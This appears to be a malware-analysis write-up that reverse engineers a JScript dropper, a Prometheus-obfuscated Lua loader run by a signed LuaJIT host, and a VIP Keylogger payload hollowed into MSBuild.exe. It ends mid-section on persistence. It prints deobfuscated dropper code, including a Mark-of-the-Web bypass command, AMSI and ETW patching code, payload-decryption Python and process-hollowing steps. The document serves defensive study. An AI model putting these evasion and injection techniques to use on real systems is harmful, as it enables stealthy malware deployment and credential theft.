# From a 4 MB JScript to VIP Keylogger — A Signed LuaJIT Host, Prometheus and Process Hollowing

This one started as a single JavaScript file of almost **4 MB**. Open it and it's basically one line, made of the character `\u2644` (♄) repeated tens of thousands of times, with the real code hidden somewhere in between. Under that there is a three-stage chain: a **JScript dropper** → a **Lua script obfuscated with Prometheus**, run by a **legitimate LuaJIT host signed by Sangfor Technologies** → a **.NET stealer injected into `MSBuild.exe`** via process hollowing. The final payload is **VIP Keylogger** (it signs its own logs `| / VIP Recovery \`), a descendant of Snake Keylogger. The goal was to get to the C2, and the C2 turned out to be an SMTP account and a Telegram bot.

Most of this writeup is **static**. The one exception is the dropper: I neutered it (removed the line that runs the payload) and ran it once in an isolated Windows VM with Procmon, just to collect the four files it writes to disk. Nothing past that point was ever executed. Every other layer was peeled by reading the code, understanding the algorithm, and reproducing it in Python until the next stage came out looking like something sensible (Lua, `MZ`, readable config).

A note on the tooling: **the Python scripts that do the actual decoding were generated with Claude** (Anthropic's AI assistant). In every case I first worked out the algorithm myself from the code — the junk split, the Prometheus string table, the payload decryption, the DES config — and then had Claude turn it into a script, and checked that the output made sense. The understanding is mine; the typing was delegated.

## Triage

```
$ sha256sum be972152...d3.js
be972152b59642efc417b9e01c0794611acc3af9644f8330adf3b5f7ed4864d3

$ file be972152...d3.js
Unicode text, UTF-8 text, with very long lines (61873), with CRLF line terminators

$ wc -c be972152...d3.js
3983524
```

The file has 6 lines, and one of them is 3 970 061 characters long. The top is a fancy comment banner in Unicode bold letters (`COLD EYES HOT BLOOD`, `FROST BITE IRON WILL`, `THE WINTER PACK RISES`…), with the string `TPHXGPBTXHOMPDIC` sprinkled through it. That string will come back: it's the name of the dropped executable.

## Stage 1 — The JScript Dropper

### Two kinds of junk

There are two separate tricks to make the script unreadable.

The first is **string splitting**. Every interesting string is written as a string literal where the real characters are separated by long runs of `\u2644`, and then cleaned at runtime:

```javascript
var NNNNNIRJETR = "\u2644\u2644…W\u2644\u2644…S\u2644…c\u2644…ri\u2644…p\u2644…t.\u2644…S\u2644…h\u2644…e\u2644…l\u2644…l\u2644…";
var NWERTRJETR  = NNNNNIRJETR.split("\u2644").join("");   // "WScript.Shell"
```

The second is **junk functions**. Between almost every real statement there is a block like this:

```javascript
var HOLLYNAMRF = 'ሠረሰሸ';
function TPHXGPBTXHOMPDICEU(ObserverTPHXGPBTXHOMPDICY) {
    HOLLYNAMRF += 'አማርኛTPHXGPBTXHOMPDICአማርኛTPHXGPBTXHOMPDIC…';
}
```

The function is never called, so the whole block does nothing. It's just there to add size and noise (and Amharic characters).


*The last real statement of the file — `WScript.Shell.Run(exe + "  " + file, 0, false)` — between two junk functions. Every variable here was built with `split("\u2644").join("")`.*

Once I understood the pattern, the cleanup is mechanical: remove the junk functions, collapse the `\u2644` runs, and shorten the four huge string literals so the rest becomes readable. After that the 4 MB file is about **190 lines** of code.

### What the dropper does

With the junk gone, the logic is short:

```javascript
// 1. Remove its own Mark-of-the-Web
WshShell.Run('cmd /c echo. > "' + WScript.ScriptFullName + ':Zone.Identifier"', 0, true);

// 2. Paths, all in the user's Documents folder
var DOCS = WshShell.SpecialFolders("MyDocuments");
var F1 = DOCS + "\\CIDPMOHXTBPGXHPT";          // reverse("TPHXGPBTXHOMPDIC"), no extension
var F2 = DOCS + "\\TPHXGPBTXHOMPDIC.exe";
var F3 = DOCS + "\\libluajit.dll";
var F4 = DOCS + "\\vcruntime140.dll";

// 3. Drop the four files, only on the first run
if (!fso.FileExists(F1)) {
    // x = MSXML "bin.base64" node; x.text = clean(reverse(BLOB)); ADODB.Stream → SaveToFile
    drop(BLOB_1, F1);  drop(BLOB_2, F2);  drop(BLOB_3, F3);  drop(BLOB_4, F4);
}

// 4. Run the exe with the extension-less file as argument (hidden, async)
WshShell.Run(F2 + "  " + F1, 0, false);
```

A few details worth noting:

- **Mark-of-the-Web bypass.** `echo. > "script.js:Zone.Identifier"` overwrites the NTFS alternate data stream that Windows attaches to downloaded files (`ZoneId=3` = Internet). Without it, SmartScreen and friends no longer treat the file as downloaded. It happens while the script is already running, so it doesn't bypass the first prompt, only later checks.
- **The four blobs** (1.69 M, 466 K, 1.2 M and 329 K characters) are each **reversed**, cleaned of a set of filler characters (`? ! ~ space \u2644 # $ % ^ & * >`), and decoded as base64 through the classic `Microsoft.XMLDOM` element with `dataType = "bin.base64"`, then written with `ADODB.Stream`.
- **Dead code.** There's a branch that compares `"BBBBBSTBBBBB" === "YESSSSSSSS"`, which is always false. If it were true, it would write `Documents\TPHXGPBTXHOMPDIC.mui`. That `.mui` file turns out to be the switch for the persistence in the Lua stage (see below). A `makeid()` random string generator is defined and never called.

### Getting the dropped files

Instead of re-implementing the four blob decoders, I took the shortcut: I commented out the final `Run`, replaced it with a `WScript.Echo`, and ran the neutered script once with `cscript //E:JScript` in an isolated Windows 11 VM (FLARE-VM, no network). Procmon confirms the drop:


*`cscript.exe` (32-bit, from `SysWOW64`) loads `msado15.dll` — that's `ADODB.Stream` — and creates the four files in `C:\Users\Test\Documents`.*

## The Dropped Files

```
$ file *
CIDPMOHXTBPGXHPT:      ASCII text, with very long lines (65536), with no line terminators
TPHXGPBTXHOMPDIC.exe:  PE32+ executable for MS Windows 6.00 (console), x86-64, 7 sections
libluajit.dll:         PE32+ executable for MS Windows 6.00 (DLL), x86-64, 6 sections
vcruntime140.dll:      PE32+ executable for MS Windows 6.00 (DLL), x86-64, 8 sections
```




*The file passed as argument is just text.*

The executable is tiny (31 800 bytes). It imports from `libluajit.dll` and `vcruntime140.dll`; the entry point does the usual MSVC `__security_init_cookie` and then jumps into the CRT wrapper that leads to `main`. It takes `argv[1]`, hands it to LuaJIT, and runs it. In other words, the `.exe` is a **Lua interpreter**, and the extension-less file is a **Lua script**.

(At first I read the text file as JavaScript, then as VBScript. What settled it was the syntax: `local`, blocks closed by a bare `end`, `~=` for "not equal", `..` for concatenation. Lua.)

### Are the PEs legitimate?

If the exe is just an interpreter, the obvious question is whether it was tampered with. I checked the Authenticode signatures with `osslsigncode`:


*`libluajit.dll`: the computed digest matches the signed one, signed by **Sangfor Technologies Inc.** (Shenzhen) through a DigiCert code-signing CA, certificate valid 2023-03-23 → 2026-03-22.*


*The executable is signed with the **same** certificate (serial `09F980676D7D7E8D5EB042D2DF477848`), and its digest matches too.*


*`vcruntime140.dll` is Microsoft's (14.50.35719.0). The digest matches; `osslsigncode` only complains because the Microsoft root isn't in Linux's CA bundle.*

On top of that, I compared the SHA256 of the two DLLs with known clean copies, and they match. So the exe and both DLLs are **legitimate, signed binaries** — most likely lifted from a Sangfor product, with the exe renamed. The only malicious file on disk is a text file without an extension. That's the clever part of this chain: the process doing the work is signed by a real security vendor, and LuaJIT's FFI (more on that below) gives a Lua script full access to the Windows API.

## Stage 2 — The Lua Script (Prometheus)

The Lua file is 634 294 bytes on a single line. Formatted, it's about 16 000 lines. It's obfuscated with **[Prometheus](https://github.com/prometheus-lua/Prometheus)**, an open-source Lua obfuscator, and it has all of its usual features.

### The constant array

All string constants are pulled out into one table, `Mz`, of 287 encoded strings. Before use, the table is **rotated** with three in-place reversals:


*Reverse `[1..287]`, then `[1..150]`, then `[151..287]`. Three reversals equal a rotation of the array. Then every constant in the code is read as `Iz(N)`, which returns `Mz[N - 19266]`.*

So instead of `"insert"` the code says `Iz(19376)`, which is `Mz[110]`.

### Junk blocks

Between the real statements there are hundreds of blocks like these:


*`local e = K(1,4) tostring(e)`, `K:rep(5)`, `table.insert(K, 63)` on a local table… The results are never stored anywhere that outlives the `do … end` block. Dead code, inserted to make noise.*

I initially thought the `rep`/`tostring` blocks were part of the string decoding. They aren't: nothing they compute survives the block.

### Custom base64

The actual decoding happens right after the rotation. First an alphabet:


*Table `s` maps each character to a value 0–63, in a shuffled order. Sorted by value, the alphabet is `gpnMXS06NZuKCeTtAhkoLzOJylRIBQbWvGr1U9Ha+m4wf53FsijxDV27Y8PEcq/d`.*

then a loop over the whole table:


*For each string: accumulate 4 characters × 6 bits into `r`, split the 24 bits into 3 bytes (`/65536`, `%65536/256`, `%256`), handle `=` padding, and replace the entry with `table.concat` of the result.*

Since `s` isn't the standard alphabet, a plain `base64 -d` gives garbage. Re-implemented in Python (rotation + custom base64), all 287 constants decode cleanly, and substituting every one of the 2180 `Iz(N)` calls with its literal makes the script readable. 279 constants are plain text — API names, DLL names, paths, log messages.

### LuaJIT FFI: the Windows API from a script

This is why a Lua script can be malware at all. LuaJIT has an **FFI** module that lets a script declare C structures and function prototypes and then call them directly in a DLL:


*An x86 `CONTEXT` structure (`MY_CONTEXT86`) and prototypes for `CreateProcessW`, `VirtualAllocEx`, `VirtualProtect`, `WriteProcessMemory`, `Get/SetThreadContext`, the `Wow64` variants, `ResumeThread`…*


*The three system DLLs are loaded inside `pcall`, so a failure just prints `[load failed]` instead of crashing.*

### Defence evasion

Before injecting anything, the script blinds the two telemetry sources that would see a .NET payload being loaded.

**AMSI.** It loads the 64-bit CLR, `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\clr.dll`, scans its image for the strings `AmsiScanBuffer` and `AmsiInitialize` (both ASCII and UTF-16) and overwrites them with zeros through `NtProtectVirtualMemory` + `NtWriteVirtualMemory`. If the CLR can't find the names, it can't resolve AMSI.

**ETW and more.** A small helper writes 16 bytes — `C3` (`ret`) followed by fifteen `90` (`nop`) — at the start of a function, so the function returns immediately:

```lua
local d = e.new("unsigned char[?]", 16)
d[0] = 195                         -- 0xC3, ret
for K = 1, 15 do d[K] = 144 end    -- 0x90, nop
NtProtectVirtualMemory(...); NtWriteVirtualMemory(proc, addr, d, 16, ...)
```

and it's applied to this list from `ntdll`:

```lua
{ "EtwEventWrite", "EtwEventWriteFull", "EtwEventWriteTransfer", "EtwEventWriteString",
  "NtTraceEvent", "EtwEventEnabled", "NtOpenThread", "NtSuspendThread",
  "NtTerminateThread", "NtTerminateProcess", "NtSuspendProcess", "NtCreateSection" }
```

The ETW functions make sense. Patching `NtOpenThread`, `NtSuspendThread`, `NtTerminateProcess` and friends in its own process is probably meant to break tools that try to suspend or kill it from the inside (hooking DLLs, for example).

**Decoys.** Then there is some pure noise:


*One function allocates a random number of small `NtAllocateVirtualMemory` regions ("Guard pages installed"). `d541zPa12Wg` fills a 1 MB buffer with `ntdll.dll`, `kernel32.dll`, `VirtualProtect`, `0xDEADBEEF`, `DRIVER_IRQL_NOT_LESS_OR_EQUAL` and `[+] mapped at 0xFFFFF800`.*

None of these strings have anything to do with a 32-bit user-mode .NET payload. They're there to confuse memory scanners and YARA rules (and analysts). It worked on me for a few minutes.

### Decrypting the payload

The first line of the formatted script is a single assignment, `local TPHXG = "DmdCClvV/EXwy1/a2Ba6Z0IKW9X8RfDL…"`, 366 616 characters long. The beginning is suspicious: the same ~56 characters repeat over and over. That's the classic look of a repeating XOR key over data that is mostly zeros, like the padding of a PE header.


*`K = pz(TPHXG)` is standard base64. The first byte is the key length (14), the next 14 bytes are the key, the rest is XORed with the key cyclically through `bit.bxor`.*

The whole pipeline is four steps:

1. `pz()` — **standard** base64 this time.
2. `[len][key][data]` — XOR with the 14-byte key `67420a5bd5fc45f0cb5fdad816ba`.
3. `j71ik6i6Bnj1osX()` — **reverse** the bytes.
4. `drh0qmpxhv7()` — the first byte is a header `128 + a` (here `0xB9`, so `a = 57`), and every byte in the printable range 33–126 is rotated by `94 - a` positions (a ROT-94 with shift 37). Other bytes are left alone.

The script itself checks the result starts with `MZ` before injecting it. In Python:

```python
raw  = base64.b64decode(TPHXG)
klen, key, data = raw[0], raw[1:1+raw[0]], raw[1+raw[0]:]
x    = bytes(c ^ key[i % klen] for i, c in enumerate(data))[::-1]
sh   = 94 - (x[0] - 128)
pe   = bytes(33 + ((c - 33) + sh) % 94 if 33 <= c <= 126 else c for c in x[1:])
```

```
$ file payload.bin
PE32 executable for MS Windows 4.00 (GUI), Intel i386 Mono/.Net assembly, 3 sections
$ sha256sum payload.bin
8188f845af0212fac2ef1e3e4bf37ec576cf85b52e40973ed10adcfd03f43fc6
```

### Process hollowing into MSBuild

The target process is in a small config table near the top of the real code:


*`TARGET_PROCESS = C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe` — the 32-bit one, which is why the payload is a 32-bit .NET assembly. `PAYLOAD_PATH = "x.exe"` is never used, `DEBUG = false`.*

And the injection is textbook RunPE, all through FFI:


*`NtUnmapViewOfSection` on the image base, `VirtualAllocEx` at the preferred base (with a fallback to a `NULL` base if it's taken), `WriteProcessMemory` of the headers.*

The full sequence:

1. `CreateProcessW` on `MSBuild.exe`, suspended.
2. `NtUnmapViewOfSection` of the original image.
3. `VirtualAllocEx` at the payload's `ImageBase` (or anywhere, if that fails).
4. `WriteProcessMemory` for the headers and each section.
5. `Wow64GetThreadContext` (or `GetThreadContext`), patch the image base in the PEB at `Ebx + 8`, set `Eax` to the new entry point, `Wow64SetThreadContext`.
6. `ResumeThread`.

The stealer then runs inside a signed Microsoft build tool, started by a signed Sangfor binary.

### Dormant persistence

One branch of the script only runs if a file `<exe folder>\<exe name>.mui` exists:

